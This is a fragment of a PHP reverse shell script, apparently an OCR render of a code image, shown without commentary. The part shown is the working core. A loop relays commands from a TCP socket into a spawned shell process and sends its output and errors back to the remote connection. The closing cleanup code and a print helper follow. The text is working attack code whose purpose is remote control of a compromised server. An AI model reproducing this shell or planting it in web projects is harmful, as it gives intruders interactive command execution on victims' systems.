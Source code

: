 ```shell
printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```